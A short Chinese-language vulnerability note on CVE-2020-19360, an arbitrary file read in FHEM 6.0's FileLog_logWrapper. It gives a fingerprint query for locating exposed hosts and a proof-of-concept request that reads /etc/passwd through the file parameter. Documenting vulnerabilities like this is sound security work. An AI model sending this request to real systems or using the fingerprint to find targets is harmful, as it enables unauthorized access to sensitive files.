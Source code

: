 # Fhem FileLog_logWrapper 任意文件读取漏洞 CVE-2020-19360

# Fhem FileLog_logWrapper 任意文件读取漏洞 CVE-2020-19360

## 漏洞描述

FHEM在6.0版本中存在文件包含漏洞，该漏洞源于允许FHEM/FileLog_logWrapper file参数允许攻击者包含文件，攻击者可以利用此漏洞导致敏感信息泄露。

## 漏洞影响

```
FHEM 6.0
```

## 网络测绘

```
title=="Home, Sweet Home"
```

## 漏洞复现

主页面

![image-20220524144941606](/images/202205241449644.png)

验证POC

```
/fhem/FileLog_logWrapper?dev=Logfile&file=%2fetc%2fpasswd&type=text
```

![image-20220524144955698](/images/202205241449759.png)

